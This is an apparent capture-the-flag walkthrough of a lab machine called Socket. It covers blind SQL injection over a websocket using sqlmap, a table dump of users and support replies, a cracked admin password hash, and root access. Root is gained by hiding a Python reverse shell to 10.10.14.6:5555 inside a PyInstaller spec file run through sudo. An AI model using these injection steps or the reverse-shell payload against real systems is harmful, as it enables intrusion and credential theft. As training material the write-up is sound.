## RUSTSCAN:
`PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIzAFurw3qLK4OEzrjFarOhWslRrQ3K/MDVL2opfXQLI+zYXSwqofxsf8v2MEZuIGj6540YrzldnPf8CTFSW2rk=
|   256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPTtbUicaITwpKjAQWp8Dkq1glFodwroxhLwJo6hRBUK
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://qreader.htb/
5789/tcp open  unknown syn-ack ttl 63
| fingerprint-strings: 
|   GenericLines, GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Date: Sun, 26 Mar 2023 10:46:45 GMT
|     Server: Python/3.10 websockets/10.4
|     Content-Length: 77
|     Content-Type: text/plain
|     Connection: close
|     Failed to open a WebSocket connection: did not receive a valid HTTP request.
|   Help, SSLSessionReq: 
|     HTTP/1.1 400 Bad Request
|     Date: Sun, 26 Mar 2023 10:47:00 GMT
|     Server: Python/3.10 websockets/10.4
|     Content-Length: 77
|     Content-Type: text/plain
|     Connection: close
|_    Failed to open a WebSocket connection: did not receive a valid HTTP request.
`
Let' add qreader.htb to our hosts file and move forward with enumeration.
* * *
## SSH:
So far i don't think we can du that much on SSH service since it's a pretty new version and no known exploits are available in the wild so far..
Bruteforce is most likely not the way to go here, so we can move forward and we may come back when we find some credentials to be used together with ssh service.
* * *
## HTTP:
if we try to surf manually to the website we are presented with a sort of QR generator that adds codes to your image:

And we know is most likely developed in Flask:

And Wappalyzer confirm that:


Appaently no subdomains have been found so far:


And those webdirectories came out from a Webfuzzing with Dirsearch:
`Target: http://qreader.htb/

[13:31:19] Starting: 
[13:31:36] 302 -  189B  - /download/users.csv  ->  /
[13:31:37] 302 -  189B  - /download/history.csv  ->  /
[13:31:49] 200 -    4KB - /report
[13:31:50] 403 -  276B  - /server-status/
[13:31:50] 403 -  276B  - /server-status
[13:33:26] 405 -  153B  - /embed
[13:33:59] 405 -  153B  - /reader
`

Easiest is to spinup a Burpsuite istance and try to map the request by playing around a bit with wesite.

So far what we know:
1. We can download the binary from /download/xxxx where it can be both for linux and windows 

2. Report let's us send some kind of report to the developer

3. Trying to download those csv files we found from our previous fuzzing is not working and we get redirected back to main site
4. Seems like QR code functions are not working, cause I tried to generate a QR code with some random embedded text and upload it in the website but scanning shoed basically nothing

5. QR code generator seems working just fine, it ask you for some text and it generates and download a picture with enbedded text

6. Edit: seems like even Read function is working properly

So far nothing strange came out and I don't think i can inject somehow some commands into that Reader function since can't see any info about plugins beenig used that underline some know vulnerability.
I will move back to the websocket and continue where I've left.
* * *
## Port 5789:
We know from our NMAP results that this port is serving some kind of Python web socket, and if we try to surf through the browser we get the message that we must use a websocket application:


So checking for sometips on how to deal with websockets i found this: https://book.hacktricks.xyz/pentesting-web/cross-site-websocket-hijacking-cswsh#websockets-enumeration
But seems like we can't get that much out of it:


Ok here I guess we have to write some kind of Python script that connects to the Websocket.
First of all I google a bit and apparently we can try to use this Websocket cmdline out of the box: https://github.com/vi/websocat

Ok here I started to play around but could't make it work, so instead i google a biut and found there are some Chrome extension that works out of the box, like this: https://chrome.google.com/webstore/detail/browser-websocket-client/mdmlhchldhfnfnkfmljgeinlffmdgkjo/related

So i connected to ws://qreader:5789  and sent some dummy data, but it failed cause it was expecting in JSON format:


And by sending some dummy data but this time in JSON format we get our first answer from the server:
`{"paths": {"/update": "Check for updates", "/version": "Get version information"}}`

Here if i try to poitn to IP:port/update the only value that answer is:
`{"version":"test"}`
But every value returns wront version:
`{
  "message": "Invalid version!"
}`

So here I was lost I was pointed to use this that could help be get foothold: https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html

And then asking for some tips I totaly missed that application version was available in those application we downloaded from /download:


Now magically using this version it gave us more informations:
`{
  "message": {
    "id": 2,
    "version": "0.0.2",
    "released_date": "26/09/2022",
    "downloads": 720
  }
}

19:00 16.53
{
  "version": "0.0.2"
}`

Now here I got using this script(https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) that sends request in JSON format to the Websocket and it redirects to a HTTP server that then can be used to fuzzed with SQLMAP.

The script need to be edited a bit:
1. Change the payload to macht version: 0.0.2
	data = '{"version":"%s"}' % message
2. Here I got as tips to replace ' with "" escaped
message = unquote(payload).replace("'",'\\\"')


Changing this small things we can run the script:
`┌──(root㉿kali-linux)-[/home/millycash/Downloads]
└─# python3 temp.py             
[+] Starting MiddleWare Server
[+] Send payloads in http://localhost:8081/?id=*
`

And in another tab we can catch the request in SQLMAP:
`──(root㉿kali-linux)-[/home/millycash/Downloads]
└─# sqlmap -u 'http://localhost:8081/?id=0.0.2' --dbs --batch
`

And doing so we candump the tables:
`[6 tables]
+-----------------+
| answers         |
| info            |
| reports         |
| sqlite_sequence |
| users           |
| versions        |
+-----------------+
`

And we have users:
`Table: users
[1 entry]
+----+-------+----------------------------------+----------+
| id | role  | password                         | username |
+----+-------+----------------------------------+----------+
| 1  | admin | 0c090c365fa0559b151a43e0fea39710 | admin    |
`

Now checking the password hash seems like it's maybe a MD5:


So running the hash thru hashcat we crack it almost immediately!
`0c090c365fa0559b151a43e0fea39710:denjanjade122566         
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 0c090c365fa0559b151a43e0fea39710
Time.Started.....: Sun Mar 26 21:04:26 2023 (0 secs)
Time.Estimated...: Sun Mar 26 21:04:26 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 14203.8 kH/s (0.19ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 8683520/14344385 (60.54%)
Rejected.........: 0/8683520 (0.00%)
Restore.Point....: 8667136/14344385 (60.42%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: desiree003 -> denhatchat
Hardware.Mon.#1..: Temp: 68c Util: 31%
`
* * *
## USER.txt
Now I don't think this is the Admin password on the SSH so i guess we have to enumerate more the DB since we don't have any Login page.

Trying to dump Asnwers table we get a Thomas user that maybe could be in the machine:
`Database: <current>
Table: answers
[2 entries]
+----+-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------+-------------+---------------+
| id | answer                                                                                                                                                                        | status  | answered_by | answered_date |
+----+-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------+-------------+---------------+
| 1  | Hello Json,\\n\\nAs if now we support PNG formart only. We will be adding JPEG/SVG file formats in our next version.\\n\\nThomas Keller                                       | PENDING | admin       | 17/08/2022    |
| 2  | Hello Mike,\\n\\n We have confirmed a valid problem with handling non-ascii charaters. So we suggest you to stick with ascci printable characters for now!\\n\\nThomas Keller | PENDING | admin       | 25/09/2022    |
+----+------------------------------------------------------------------------------`

And here comes Reports table which is what we got from /report form:
`Database: <current>
Table: reports
[2 entries]
+----+---------------------------+---------------------------------------------------------------------------------------------------------------------+---------------+---------------+
| id | subject                   | description                                                                                                         | reported_date | reporter_name |
+----+---------------------------+---------------------------------------------------------------------------------------------------------------------+---------------+---------------+
| 1  | Accept JPEG files         | Is there a way to convert JPEG images with this tool? Or should I convert my JPEG to PNG and then use it?           | 13/08/2022    | Jason         |
| 2  | Converting non-ascii text | When I try to embed non-ascii text, it always gives me an error. It would be nice if you could take a look at this. | 22/09/2022    | Mike          |
+----+---------------------------+---------------------------------------------------------------------------------------------------------------------+---------------+---------------+
`

here I tried spraying users from name, surname to name.surname from Thomas keller and lastly by testing tkeller I got it working:


Now grab and submit the first flag:

* * *
## ROOT:
For root i think easiest would be to upload pspy and Linpeas and check for PE.

But first we can see if tkeller can do any sudo?
`tkeller@socket:~$ sudo -l
Matching Defaults entries for tkeller on socket:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tkeller may run the following commands on socket:
    (ALL : ALL) NOPASSWD: /usr/local/sbin/build-installer.sh
`

So far Linpeas only found this:
`╔══════════╣ SGID
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
-rwxr-sr-x 1 root utmp 15K Mar 24  2022 /usr/lib/x86_64-linux-gnu/utempter/utempter
-rwxr-sr-x 1 root crontab 39K Mar 23  2022 /usr/bin/crontab
-rwxr-sr-x 1 root tty 23K Feb 21  2022 /usr/bin/wall
-rwxr-sr-x 1 root _ssh 287K Nov 23 07:38 /usr/bin/ssh-agent
-rwxr-sr-x 1 root shadow 71K Nov 24 12:05 /usr/bin/chage
-rwxr-sr-x 1 root tty 23K Feb 21  2022 /usr/bin/write.ul (Unknown SGID binary)
`

Someone tipsed on the forum to run PSPY and check what processed are running in backgroup as root:
`023/03/26 19:39:58 CMD: UID=998  PID=776    | /usr/local/sbin/laurel --config /etc/laurel/config.toml 
`

This was the only one that seemed out of the normality...
But then I went back on the bash script and apparently there are 3 functions make, cleanup and build
i started from make and apparently seems like application expects a python file which invokes pyinstaller:
`tkeller@socket:/usr/local/sbin$ sudo build-installer.sh make test.py
482 INFO: PyInstaller: 5.6.2
482 INFO: Python: 3.10.6
484 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
484 INFO: wrote /tmp/qreader.spec
489 INFO: UPX is not available.
script '/usr/local/sbin/test.py' not found
`

Check here:
https://pyinstaller.org/en/stable/usage.html

Now here i spent some time to read about it and apparently the solution was in the Make function that was expecting a spec file.
I got most on the work here: https://medium.com/swlh/easy-steps-to-create-an-executable-in-python-using-pyinstaller-cc48393bcc64

Basically a specs file is used by PYinstaller to define how to build binaries, and can be made easily by using pyi-makespec

So first I made a simple python script on my machine that reads the flag on root. 
`└─# cat read.py 
f = open("/root/root.txt","r")
lines = f.readlines()
print(lines)
`

Then I created a basic specs file:
`└─# pyi-makespec read.py -F
wrote /home/millycash/Downloads/read.spec
now run pyinstaller.py to build the executable
`

The content:
`──(root㉿kali-linux)-[/home/millycash/Downloads]
└─# cat read.spec 
# -*- mode: python ; coding: utf-8 -*-

block_cipher = None

a = Analysis(['read.py'],
             pathex=['/home/millycash/Downloads'],
             binaries=[],
             datas=[],
             hiddenimports=[],
             hookspath=[],
             runtime_hooks=[],
             excludes=[],
             win_no_prefer_redirects=False,
             win_private_assemblies=False,
             cipher=block_cipher,
             noarchive=False)
pyz = PYZ(a.pure, a.zipped_data,
             cipher=block_cipher)
exe = EXE(pyz,
          a.scripts,
          a.binaries,
          a.zipfiles,
          a.datas,
          [],
          name='read',
          debug=False,
          bootloader_ignore_signals=False,
          strip=False,
          upx=True,
          upx_exclude=[],
          runtime_tmpdir=None,
          console=True )`
		  
		  Then I uploaded everithing on the victim and made a make but haven't went well, so I edited the pathex to reflec /tmp 
		  
I read more and what made it work was using hooks in the spec file:
If we use the onedir or default option, then you can see the collect section along with the exe section inside the Spec file.

You can open the simpleModel. Spec file and add the following code highlighted and Italicized to create hooks.

# -*- mode: python ; coding: utf-8 -*-block_cipher = None
import os
spec_root = os.path.realpath(SPECPATH)options = []
# options = [('v', None, 'OPTION')]from PyInstaller.utils.hooks import collect_submodules, collect_data_files
tf_hidden_imports = collect_submodules('tensorflow_core')
tf_datas = collect_data_files('tensorflow_core', subdir=None, include_py_files=True)a = Analysis(['simpleModel.py'],
             pathex=['\\test_model'],
             binaries=[],
             datas=tf_datas + [],
             hiddenimports=tf_hidden_imports + [],
             hookspath=[],
             runtime_hooks=[],
             excludes=[],
             win_no_prefer_redirects=False,
             win_private_assemblies=False,
             cipher=block_cipher,
             noarchive=False)
			 
So what i did i planted a Python revshell like this:
──(root㉿kali-linux)-[/home/millycash/Downloads]
└─# cat read.spec 
# -*- mode: python ; coding: utf-8 -*-

block_cipher = None
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.6",5555))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("/bin/sh")

a = Analysis(['read.py'],
             pathex=['/home/millycash/Downloads'],
             binaries=[],
             datas=[],
             hiddenimports=[],

And I got a Root revshelll in NC listener:
`┌──(root㉿kali-linux)-[/home/millycash/Downloads]
└─# nc -lvnp 5555         
listening on [any] 5555 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.206] 36384
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
cd /root
# ls
ls
cleanup  root.txt  snap
# cat root.txt
`

* * *